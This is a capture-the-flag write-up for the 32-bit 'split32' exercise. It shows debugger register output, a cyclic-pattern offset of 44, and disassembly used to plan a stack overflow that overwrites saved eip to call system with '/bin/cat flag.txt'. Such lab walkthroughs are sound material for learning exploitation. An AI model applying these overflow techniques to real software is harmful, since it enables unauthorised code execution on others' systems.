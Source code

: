 ```bash
ecx            0xf7fa49b4          -134592076
edx            0x1                 1
ebx            0xf7fa3000          -134598656
esp            0xffffd010          0xffffd010
ebp            0x6161616b          0x6161616b
esi            0xffffd0e4          -12060
edi            0xf7ffcb80          -134231168
eip            0x6161616c          0x6161616c
eflags         0x10282             [ SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99

pwndbg> cyclic -l 0x6161616c
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

## Capture The Flag - x86

The attack plan is to build a `payload` that overwrites the *saved eip* of *pwnme*:

* **PADDING** of 44 bytes.
* **call system ADDRESS** of 4 bytes.
* **/bin/cat flag.txt ADDRESS**.

This should allow us to invoke the `system` function wiht the desired command.

Let's check if the string of interest is present in the binary:

```bash
$ strings -t x split32 | grep cat 
   1030 /bin/cat flag.txt

$ python3 -c 'print(hex(0x8048000 + 0x1030))'   # executable base address + offset
0x8049030
```

It also gets the memory address of the `call system` instruction defined in `usefulFunction`:

```bash
[0x0804a030]> s sym.usefulFunction 
[0x0804860c]> pdfr
┌ 25: sym.usefulFunction ();
│ 0x0804860c      55             push ebp
│ 0x0804860d      89e5           mov ebp, esp
│ 0x0804860f      83ec08         sub esp, 8
│ 0x08048612      83ec0c         sub esp, 0xc
│ 0x08048615      680e870408     push str._bin_ls                      ; 0x804870e ; "/bin/ls"
│ 0x0804861a      e8c1fdffff     call sym.imp.system                   ; int system(const char *string)
│ 0x0804861f      83c410         add esp, 0x10
│ 0x08048622      90             nop
│ 0x08048623      c9             leave
└ 0x08048624      c3             ret

```
